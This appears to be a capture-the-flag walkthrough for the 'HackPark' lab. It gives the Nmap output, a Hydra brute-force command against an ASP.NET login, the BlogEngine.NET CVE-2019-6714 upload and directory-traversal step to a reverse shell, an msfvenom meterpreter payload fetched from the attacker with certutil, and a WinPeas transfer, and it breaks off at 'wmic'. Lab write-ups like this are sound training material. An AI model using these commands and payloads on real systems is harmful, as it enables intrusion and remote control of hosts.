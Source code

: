 ### Nmap Scan
**Enumerate open ports and their versions to find the vulnerability.**
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 15:25 EDT
Nmap scan report for 10.10.101.155
Host is up (0.022s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: hackpark | hackpark amusements
|_http-server-header: Microsoft-IIS/8.5
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2025-05-18T19:27:44+00:00
|_ssl-date: 2025-05-18T19:27:49+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2025-05-17T19:13:48
|_Not valid after:  2025-11-16T19:13:48
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   22.11 ms 10.14.0.1
2   22.41 ms 10.10.101.155

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.75 seconds
```

### BurpSuite
- Open `burpsuite`
- Login to the website with the username `admin` (provided)
- The login form is making a `POST` request.
- The next step is to brute force the login page with hydra, but before that we need to find the `__VIEWSTATE` and `__EVENTVALIDATION` because the website is using the `.aspx` form:
	- **ASP.NET Forms**: These forms usually use ***anti-CSRF*** mechanisms like `__VIEWSTATE` and `__EVENTVALIDATION`, and similar ***dynamic hidden fields***. These ***tokens change with each request and are required to be valid for login***. Hydra, in its default mode, sends the same ***static request for every password attempt***, so it doesn't update the tokens each time.

### Hydra
**Brute force the login page with the username `admin`**
```bash
hydra -l <username> -P <password list> $ip -V http-form-post '/login.aspx?ReturnURL=/admin:__VIEWSTATE=UrqWb2RL8KZfJ91A8QYxfD60ktVv6Py1u2d6mDtcZHGE8QDoKbcA%2FsOAO3AJ6V0Cykk7WUn2FfjxH0xcS6N8IU3dK006iPXo5BH2GeElwUQpPK%2FwxfTRmJ5UbZVzX8FhKS02Db8PEfnMZpVb6np3Wf5girU2sucKJC7R%2F2CykMXeKHWC&__EVENTVALIDATION=ylQOemUDKmktcu7LCTC93iTRqzy9s80fHyH2tfu2UXas4EaglWlzYacvQluQAQflrDZm8DttbbGtEFHIIjLybaLlEsthWfdHBkVRwBkPR1rYEG2qUeVQGlziLsVcnCrimV3itOOd4DdCIUYjBj9sbZy1GEmKxy06rydTPGIGzXxVssTX&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed'
```

- Password found: **`1qaz2wsx`**

### Login to the Website
- **`admin:1qaz2wsx`**
- Check the version of the `BlogEngine: 3.3.6.0`

### Use exploit database to find an exploit 
```bash
searchsploit blogengine.net
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 1.4 - 'search.aspx' Cross-Site Scripting                                                                   | asp/webapps/32874.txt
BlogEngine.NET 1.6 - Directory Traversal / Information Disclosure                                                         | asp/webapps/35168.txt
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                        | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                        | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                   | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                   | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                | aspx/webapps/47014.py
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

**Download the exploit**
```bash
searchsploit -m 46353.cs
```

**Find the CVE**
```bash
cat PostView.ascx        
# Exploit Title: BlogEngine.NET <= 3.3.6 Directory Traversal RCE
# Date: 02-11-2019
# Exploit Author: Dustin Cobb
# Vendor Homepage: https://github.com/rxtur/BlogEngine.NET/
# Software Link: https://github.com/rxtur/BlogEngine.NET/releases/download/v3.3.6.0/3360.zip
# Version: <= 3.3.6
# Tested on: Windows 2016 Standard / IIS 10.0
# CVE : CVE-2019-6714
```

### Follow the instructions within the file to gain initial access to the server
**Change the IP**
```bash
vim 46353.cs
```

- Once the IP is changed, save the file as `PostView.ascx`.
- Upload the file to this location `http://IP/admin/app/editor/editpost.cshtml` through file manager. This is under the icon that looks like an open file in the toolbar.

**Setup a nc listener**
```bash
nc -nvlp 4445
```

- Now, perform the directory traversal `http://10.10.10.10/?theme=../../App_Data/files`
- You should receive a reverse shell as `iis apppool\blog`.

### Perform Privilege Escalation
Our netcat shell is unstable, so to get it stable we need to generate another reverse shell with `msfvenom`. Before that, check the ****architecture**** of the OS (`x64`).
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<KALI_IP> lport=<1111> -f exe -o shell.exe
```

**make the payload executable**
```bash
chmox +x shell.exe
```

Now, we need to transfer the file over to the victim machine. In your kali machine where the payload is located, start the http listener.
```bash
python3 -m http.server
```

It's always the best idea to transfer the file to the `Temp` folder in Windows. We will use the `certutil` tool to transfer the file (PowerShell can be used as well).
```cmd
cd c:\Windows\Temp
certutil -urlcache -split -f http://<kali_ip>:8000/shell.exe
```

On the victim's machine we need to start the Metasploit listener because nc listener is basic and can't handle the meterpreter shell.
```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <kali_ip>
set lport 1111
run
```

Now, run the payload
```
shell.exe
```

You should now receive a meterpreter shell. The next step is to transfer the `WinPeas.exe` script to the victim's machine.
```bash
python3 -m http.server
```

```cmd
certutil -urlcache -split -f http://<kali_ip>:8000/WinPeas.exe
```

Now, run the `WinPeas.exe` script
```cmd
WinPeas.exe
```


### Identify the Service
```
wmic 
```
